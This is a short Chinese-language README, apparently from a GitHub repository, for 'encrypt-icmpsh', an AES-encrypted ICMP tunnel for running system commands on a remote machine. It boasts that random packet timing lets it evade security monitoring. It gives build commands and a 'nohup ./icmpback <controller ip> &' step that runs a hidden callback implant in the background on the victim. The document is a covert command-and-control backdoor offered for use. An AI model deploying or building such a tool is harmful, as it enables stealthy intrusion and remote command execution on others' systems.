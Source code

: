 # encrypt-icmpsh
一个ICMP加密通信隧道，用来执行系统命令，采用aes加密，每个icmp包为64字节长度以随机时间发送，躲过安全设备监测。
（aes加密算法采用的是csdn大佬R-QWERT代码）


使用方法：
控制机：
gcc -g icmpsendcmd.c icmpsend.c aes.c -o icmpsend

./icmpsend  被控制机ip


被控机：
gcc -g testicmpback.c aes.c icmpback.c -o icmpback

nohup ./icmpback 控制机ip & (进入后台运行)


效果：
控制端：
![image](https://user-images.githubusercontent.com/53997549/174488396-94e305bd-4abf-4e68-a3c0-7b2a98dcee74.png)

抓包效果：

![image](https://user-images.githubusercontent.com/53997549/174488497-0e5c46d2-ba00-43fd-893a-15f809070d6f.png)
